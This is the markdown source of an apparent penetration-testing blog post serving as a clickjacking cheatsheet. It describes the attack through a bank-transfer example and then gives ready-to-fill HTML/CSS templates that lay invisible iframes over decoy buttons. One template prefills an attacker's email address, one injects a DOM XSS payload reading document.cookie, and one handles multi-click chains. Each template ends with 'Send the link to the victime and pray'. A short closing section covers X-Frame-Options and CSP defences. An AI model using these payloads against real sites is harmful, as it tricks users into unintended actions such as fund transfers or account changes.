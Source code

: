 ```yaml
---
title: "Clickjacking"
subtitle: ""
draft: false
author: "Hato0"
description: "Clickjacking cheatsheet"

tags: ["web", "penetest", "clickjacking", "phishing"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Clickjacking

Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. 

Example (from imperva.com) : 
1.  The attacker creates an attractive page which promises to give the user a free trip to Tahiti.
2.  In the background the attacker checks if the user is logged into his banking site and if so, loads the screen that enables transfer of funds, using query parameters to insert the attacker’s bank details into the form.
3.  The bank transfer page is displayed in an invisible iframe above the free gift page, with the “Confirm Transfer” button exactly aligned over the “Receive Gift” button visible to the user.
4.  The user visits the page and clicks the “Book My Free Trip” button.
5.  In reality the user is clicking on the invisible iframe, and has clicked the “Confirm Transfer” button. Funds are transferred to the attacker.
6.  The user is redirected to a page with information about the free gift (not knowing what happened in the background).

![alt CJ example](https://lh3.googleusercontent.com/QsCvEJWxO4xG9x4pV8Cujs55AqqtPjADgSjlmu9WxI7C0brjrFXc_tlKft169KicxtePmgKnXa-ovKP3SwCNQrXzr4mwSaLEL_EI0I4dF85zPGV7cM3kVCqPcd-VIhyJ-whhkI0)

## Some examples

- Basic clickjacking with CSRF token protection

	1. Construct a page looking like : 
    {{< highlight html "lineNos=false" >}}
    <style>  
        iframe {  
        position:relative;  
        width:$width\_value;  
        height: $height\_value;  
        opacity: $opacity;  // Set opacity to make the button transparent
        z-index: 2;  
        }  
        div {  
        position:absolute;  
        top:$top\_value;  // Change this to fully cover the baiting action
        left:$side\_value;  // Change this to fully cover the baiting action
        z-index: 1;  
        }  
    </style>  
    <div>Test me</div>  
    <iframe src="$url"></iframe>
    {{< /highlight >}}
	
	2. Send the link to the victime and pray


- Clickjacking with form input data prefilled from a URL parameter

	1. Construct a page looking like : 
		{{< highlight html "lineNos=false" >}}
		<style>  
		   iframe {  
			   position:relative;  
			   width:$width_value;  
			   height: $height_value;  
			   opacity: $opacity;  
			   z-index: 2;  
		   }  
		   div {  
			   position:absolute;  
			   top:$top_value;  
			   left:$side_value;  
			   z-index: 1;  
		   }  
		</style>  
		<div>Test me</div>  
		<iframe src="$url?email=hacker@attacker-website.com"></iframe>
		{{< /highlight >}}

	2. Send the link to the victime and pray


- Exploiting clickjacking vulnerability to trigger DOM-based XSS

	1. Construct a page looking like:
	
	{{< highlight html "lineNos=false" >}}
	<style>  
	 iframe {  
	 position:relative;  
	 width:$width\_value;  
	 height: $height\_value;  
	 opacity: $opacity;  
	 z-index: 2;  
	 }  
	 div {  
	 position:absolute;  
	 top:$top\_value;  
	 left:$side\_value;  
	 z-index: 1;  
	 }  
	</style>  
	<div>Test me</div>  
	<iframe  
	src="$url?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
	{{< /highlight >}}
	
	2. Send the link to the victime and pray
	
- Multistep clickjacking
    
    Just include as much button as you need
{{< highlight html "lineNos=false" >}}
<style>  
    iframe {  
    position:relative;  
    width:$width\_value;  
    height: $height\_value;  
    opacity: $opacity;  
    z-index: 2;  
    }  
    .firstClick, .secondClick {  
    position:absolute;  
    top:$top\_value1;  
    left:$side\_value1;  
    z-index: 1;  
    }  
    .secondClick {  
    top:$top\_value2;  
    left:$side\_value2;  
    }  
</style>  
<div class="firstClick">Test me first</div>  
<div class="secondClick">Test me next</div>  
<iframe src="$url"></iframe>
{{< /highlight >}}



## How to prevent them 

Two main option are in use to prevend them: 

- X-frame-options: 
    - deny : Make the site impossible to include into ifram balise
    - sameorigin: Make ifram only useable on the same website
    - allow-from: Specify URL that can include the website iframe 
- CSP: You can use a lot of CSP option to restrict page inclusion